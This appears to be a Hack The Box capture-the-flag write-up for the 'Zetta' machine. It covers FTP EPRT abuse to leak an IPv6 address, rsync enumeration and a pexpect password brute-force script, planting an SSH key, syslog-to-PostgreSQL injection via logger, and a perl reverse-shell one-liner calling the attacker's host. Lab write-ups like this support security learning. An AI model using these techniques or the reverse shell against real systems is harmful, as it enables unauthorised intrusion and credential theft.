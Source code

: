 ```yaml
---
title: Zetta HTB
date: '2020-02-22 17:12:00'
categories: ["htb"]
---
```


# Zetta

### Summary: A hard box _for me_ but in general I learned a lot. I did get help on the part with rsyslog and logger.


## User Part.

Port 80 and port 22 were open. I start to look at the webserver first. From the webserver I get a pair of credentials in order to login to ftp.

![FTP_creds](https://user-images.githubusercontent.com/16364370/74613409-21fb6a80-5106-11ea-8ef8-4b755bf6cd59.png)


By using the credentials I log into the ftp server but I can't find something which will trigger my attention for further movement. I use `gobuster` but nothing. I do again at the website and read about *Dual-Stack* and another one which says something about FTP enabled with FXP. And also that they support RFC2428. So I go and search for all of these terms to see what they are.

### Dual-Stack 

From [Cisco](https://www.cisco.com/c/dam/en_us/solutions/industries/docs/gov/IPV6at_a_glance_c45-625859.pdf): Dual stack means that devices are able to run IPv4 and IPv6 in parallel. It allows hosts to simultaneously reach IPv4 and IPv6 content. 

### FXP 

From [Wikipedia](https://en.wikipedia.org/wiki/File_eXchange_Protocol): File eXchange Protocol (FXP or FXSP) is a method of data transfer which uses FTP to transfer data from one remote server to another (inter-server) without routing this data through the client's connection. Conventional FTP involves a single server and a single client; all data transmission is done between these two. In the FXP session, a client maintains a standard FTP connection to two servers, and can direct either server to connect to the other to initiate a data transfer. The advantage of using FXP over FTP is evident when a high-bandwidth server demands resources from another high-bandwidth server, but only a low-bandwidth client, such as a network administrator working away from location, has the authority to access the resources on both servers. 

This also poses some risks: 

From [Wikipedia](https://en.wikipedia.org/wiki/FTP_bounce_attack): FTP bounce attack is an exploit of the FTP protocol whereby an attacker is able to use the PORT command to request access to ports indirectly through the use of the victim machine, which serves as a proxy for the request.


### RFC2428

From [IETF](https://tools.ietf.org/html/rfc2428): 
This document provides a specification for a way that FTP can
communicate data connection endpoint information for network
protocols other than IPv4. 

-------------------------------------------------------------

So I am thinking maybe we can get ipv6 address from this host by using rfc2428 which will forward my commands on my host and I can listen and get the ipv6. I Use the command from EPRT which is explained inside the RFC and I also use the quote before it to send the command to the remote ftp. The command also contains my ipv6 ip so it can reach me.

![Getting_ipv6](https://user-images.githubusercontent.com/16364370/74613416-435c5680-5106-11ea-809b-15caa92ae8d2.png)


I scan the ipv6 address with nmap and find out another port.

`nmap -6 -p dead:beef::250:56ff:feb9:b059 -vvv`

Port 80 gives me the same website but with different ftp credentials. I try them and I can indeed access the ftp. But can't do much.

![Ipv6_ports](https://user-images.githubusercontent.com/16364370/74613428-54a56300-5106-11ea-9e8e-fbde3c3c7ee5.png)


Upon using nc to connect to port 8730 I see a message.

![rsync_port_8730](https://user-images.githubusercontent.com/16364370/74613440-6ab32380-5106-11ea-83ae-5e657000de80.png)

I switch to rsync command and try to connect to this by using the rsync. If i only do rsync it takes me throught ssh, which is on port 22. I found out that I can connect to any port by using `rsync://URL`

![rsync_deamon_option](https://user-images.githubusercontent.com/16364370/74613480-b960bd80-5106-11ea-83fd-7863a0861534.png)

First of all I try to list all available modules. Which are basically something like directories configured for access.


![rsync_modules](https://user-images.githubusercontent.com/16364370/74613522-0f356580-5107-11ea-8e3b-337713d693c9.png)



I will try not to get the configuration file for rsync.

![rsync_config_files](https://user-images.githubusercontent.com/16364370/74613528-21170880-5107-11ea-9c9b-696a0acb0165.png)


I can see a lot of directories and also why `/etc/` is not showed. I also see a juicy directory which gives me a clue about a potential username.

![roy_homedir](https://user-images.githubusercontent.com/16364370/74613537-31c77e80-5107-11ea-856e-e7a5411193a8.png)


Now I try to get `/.ssh/id_rsa` from that directory.

![rsync_password_prompt](https://user-images.githubusercontent.com/16364370/74613545-4277f480-5107-11ea-9dc7-1a824e0d3071.png)

Unfortunatelly to do that I need a password. The password from ftp didn't work. So I try and create a script which will brute force the password for me.

```
import pexpect
with open('rockyou.txt', 'r') as f:
	for i in f:
	   i = i.strip('\n')
           child = pexpect.spawn('rsync -avr rsync://roy@[dead:beef::250:56ff:feb9:b059]:8730/home_roy/.ssh/id_rsa /tmp/zetta/')
	   child.expect ('Password:')
	   child.sendline (i)
	   print("\n"+"PASSWORD USED IS: " + i + "\n")
	   print(child.before.decode())
	   child.interact()

```
I redirect stdout with > to a file and then check the file to see which one didn't error out. I found out the password is `computer`.


Now I use that password to get `/.ssh/id_rsa` file. But it seems there isn't any.

![Trying to get ssh key](https://user-images.githubusercontent.com/16364370/74613556-57ed1e80-5107-11ea-9889-9adb9977872a.png)

With rsync I can also send files to a machine. I do it to send my own public key.

I create a key-pair with ssh-keygen. After I rename my private key to something like roy_priv.key and then give it chmod 600. The public key I rename it as `authorized_keys` because this filename will be sent to the server, and ssh inside the box.

![Instead Uploading the ssh key](https://user-images.githubusercontent.com/16364370/74613570-74895680-5107-11ea-9a39-81d4692340f3.png)


Now I can get user.txt on roy's home directory. I also find a .tudu.xml file which includes what the user roy? have done until this time.

I get some hints there about _postgresql errors_,_Rework syslog configuration to push all events to the DB_, and something about .git. 

After a bit of enumeration, I found out about a .git folder inside /etc/rsyslog.d/. I use `git log -p`. And I see the changes of the commit, with green color. There is a sql query from syslog to postgres. 

![git logs](https://user-images.githubusercontent.com/16364370/74688663-255b2880-51d0-11ea-91d3-b5a82fb67e4b.png)


After a lot of help from other and searching, I need to do a [sql injection], which is not a regular one. First of all I see the postgresql logs in real time with the command `tail -f /var/log/postgresql/postgresql-11-main.log`, and in another terminal I will use *logger*. 

`
The logger command provides an easy way to add messages to the /var/log/syslog file from the command line or from other files.
`

Now on the logger command I will give  `-p 'local7.info'` flag which will log the messages as information level in the local7.info facility.

If I add `'` in the log the error log file get's a syntax error. Postgres escapes single quotes with backslash. I will escape that with $. I can use `$` instead of a single quote.


I read this [post](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) and I try to get a shell as postgres user. Yes there is a postgres user and yes I can login to that user by looking into /etc/passwd.

I create a file on /tmp/ which includes a ruby reverse shell. 

rev file contains:

`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.45:7979");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

and then I execute some commands which will give me shell as postgres.

![Command execution](https://user-images.githubusercontent.com/16364370/74688693-41f76080-51d0-11ea-857a-e7d3ce2f72b5.png)


After some enumeration I see there is postgresql history saved. If I enter psql and press up arrow key or see .psql_history file I can see a password which was used to give user postgres a password.

![Postgres history](https://user-images.githubusercontent.com/16364370/74688706-4e7bb900-51d0-11ea-8e25-329749c30e3b.png)


I tried to use the password by logging with ssh as user postgres but not. So maybe the password belongs to another user. I check the .tudu again at the end.

![Password scheme](https://user-images.githubusercontent.com/16364370/74688719-5d626b80-51d0-11ea-844c-09078e7224dc.png)


And then I use su and give password sup3rs3cur3p4ass@root and get shell as root user.